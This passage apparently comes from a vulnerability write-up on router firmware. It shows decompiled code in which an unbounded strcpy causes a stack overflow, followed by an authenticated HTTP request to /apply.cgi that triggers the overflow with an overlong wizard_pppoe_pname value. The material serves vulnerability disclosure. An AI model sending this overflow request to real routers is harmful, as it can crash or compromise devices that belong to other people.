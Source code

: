         }
        memset(&local_164,0,0x138);
        __stream = fopen("/dev/console","w");
        if (__stream != (FILE *)0x0) {
            fprintf(__stream,"\n %s(%d),
            now_idx=[%s]\n","validate_wizard_pppoe_profile",0x30,&local_2a);
            fclose(__stream);
        }
        local_164 = 0x617a6977;
        uStack352 = 0x705f6472;
        uStack348 = 0x69666f72;
        uStack344 = 0x315f656c;
        local_154 = 0;
        strcpy(acStack323,__s2);
        // __s2 is copied into an array without bound checks,
        triggering a stack overflow
        strcpy(acStack259,acStack856);
        local_74 = 0x1e;
        local_78 = 5;
        local_c0 = 0;
        local_7c = 0;
        local_70 = 0;
        iVar1 = atoi((char *)&local_2a);
        set_pppoe_profile(iVar1,&local_164);
        nvram_set("pppoe_select_profile",&local_2a);
    }
    return;
}
{% endhighlight %}

It is possible to trigger one of the stack buffer overflow above with an authenticated request such as the one
below:

```
POST /apply.cgi;session_id=b37f0e917e54a1af0e1d7a0027d9de5d HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://192.168.1.1/apply.cgi;session_id=79f76000d1a3c29cef38c6dd14f25c0e
Content-Type: application/x-www-form-urlencoded
Content-Length: 1812
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

submit_button=wan&change_action=&submit_type=&ppp_passwd=dGVzdA==&wizard_pppoe_pname=AAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&gui_action=Apply&pppoe_select
_profile=0&wait_time=20&chg_flg=0wantag_enable=0&lan_ipaddr=192.168.1.1&wan_proto=pppoe&
ppp_demand=&_pppoe_select_profile=0&mtu_enable=0&webpage_end=
```
